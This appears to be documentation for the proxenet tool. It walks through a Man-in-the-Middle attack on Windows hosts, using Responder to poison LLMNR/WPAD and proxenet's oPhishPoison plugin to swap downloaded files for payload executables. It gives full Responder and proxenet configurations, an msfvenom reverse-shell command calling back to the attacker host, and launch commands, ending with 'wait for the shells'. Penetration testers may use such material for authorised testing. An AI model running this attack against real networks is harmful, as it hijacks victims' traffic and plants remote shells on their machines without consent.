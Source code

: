 # Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome [Responder](https://github.com/SpiderLabs/Responder) tool, in two easy steps.


## Network setup ##

In this example, We will target Windows hosts on the network `192.168.56.0/24`. Our evil box will be
located at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration, and redirect traffic to our evil box. The configuration is
very simple, as we only need to use poisoning feature of `Responder`.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName = WPAD
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY 192.168.56.1:8008';} ; change this address to your situation
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see proxenet setup below).
```
sudo python2 Responder.py -v -I vboxnet0 -w
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008 -i -N
```

Adding the `-N` option disables the SSL interception and make it stealthier. The
`-i` option forces `proxenet` to use the Internet Explorer compatibility mode.

From the moment `proxenet` and `Responder` are configured and running, fake LLMNR
and WPAD responses will be sent to the victims. By default, the `oPhishPoison`
plugin will replace known binary content types (such as Office documents, ZIP
files, RAR archives, etc.) with PE executables containing your payloads.

When `Responder` poisons the LLMNR request for WPAD, it will redirect the
victim to fetch the PAC configuration from itself.
![responder-wpad](img/responder-wpad.png)

After that, **every** HTTP request from this victim will go through `proxenet`.
You will very soon see this kind of message appearing on your screen:
![proxenet-poison](img/proxenet-poison.png)

This indicates that the attack was successful. From now, just wait for the
shells ☺


## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Browsers setup in "Auto-configuration" mode are vulnerable.
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !


## Live demo

Click [here](https://youtu.be/eN_HwFkyYyw) for a live demo.
